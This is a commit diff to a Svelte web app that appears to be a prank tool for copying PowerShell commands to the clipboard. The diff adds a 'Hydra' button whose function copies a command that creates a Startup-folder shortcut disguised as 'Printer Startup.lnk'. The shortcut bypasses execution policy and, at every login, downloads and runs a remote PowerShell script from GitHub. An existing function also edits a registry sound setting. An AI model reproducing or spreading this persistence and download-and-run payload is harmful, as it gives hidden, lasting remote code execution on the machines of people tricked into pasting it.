

Before and after one commit to TheLudde235/svelte-v, a Svelte app: page / in a window 1280 px wide. Shown: the top 201 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update App.svelte

```diff
--- a/src/App.svelte
+++ b/src/App.svelte
@@ -30,6 +30,10 @@
         }
     }
 
+    function copyHydra() {
+        navigator.clipboard.writeText(`$WshShell = New-Object -comObject WScript.Shell;$Shortcut = $WshShell.CreateShortcut("$Home\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\Printer Startup.lnk");$Shortcut.TargetPath = "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe";$Shortcut.Arguments = '-ExecutionPolicy Bypass -NoLogo "(Invoke-Webrequest \\"https://raw.githubusercontent.com/TheLudde235/powershell/main/test/hydra.ps1\\").content | powershell.exe"';$Shortcut.Save();exit;`)
+    }
+
     function clear($event) {
         navigator.clipboard.writeText(`Set-ItemProperty -Path \"HKCU:\\AppEvents\\Schemes\\Apps\\.Default\\Open\\.Current\" -Name \"(Default)\" -Type \"String\" -Value \"\";`);
     }
@@ -50,13 +54,14 @@
     </div>
     <input
         type="text"
-        placeholder="pop-up content (max 79)"
+        placeholder="pop-up content (max 79 for popup)"
         id="popup-input"
-        maxlength="79"
         bind:value={popupContent}
     />
     <a href="#" on:click={copyPopup(popupContent)}><h1>Copy pop-up (run)</h1></a
     >
+    <a href="#" on:click={copyHydra()} class="script">Hydra</a>
+
     {#each funnies as funny}
         <div class="funny">
             <p>{funny.split("/")[2]}</p>
```
